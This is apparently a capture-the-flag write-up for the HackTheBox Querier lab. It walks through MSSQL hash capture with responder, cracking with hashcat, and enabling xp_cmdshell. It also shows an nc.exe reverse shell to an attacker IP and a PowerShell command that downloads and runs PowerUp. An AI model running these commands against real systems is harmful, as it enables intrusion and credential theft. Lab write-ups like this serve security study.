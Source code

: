 Consulting [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) and 0xdf's [walkthrough](https://0xdf.gitlab.io/2019/06/22/htb-querier.html) I learned about capturing hashes with responder from MSSQL.

```bash
sudo responder -I tun0
xp_dirtree '\\10.10.14.26\share\thing
```

Now we have the hash of mssql-svc and can try to crack it.

```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -O --force
```

Now we have a password of a higher level user within MSSQL and can log back in and get command execution.

```
mssqlclient.py mssql:'corporate568 '@10.10.10.125 -windows-auth
```

We can leverage the xp_cmdshell function in the SQL prompt to execute commands but it needs to be enabled first.

```cmd
sp_configure 'show advanced options', '1'
RECONFIGURE

sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

After this, AV was not taking very kindly to my reverse shell attempts so I had to learn a different way. We can host netcat off of an smb share and execute it from there.

```cmd
smbserver.py -smb2support a .
xp_cmdshell \\10.10.14.26\a\nc.exe -e cmd.exe 10.10.14.26 5555
```


## PrivEsc

From here it is fairly simple to run PowerUp and gain the root password.

```cmd
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.26/PowerUp.ps1')
```

Results:

```cmd
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2460
ProcessId   : 2112
Name        : 2112
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
```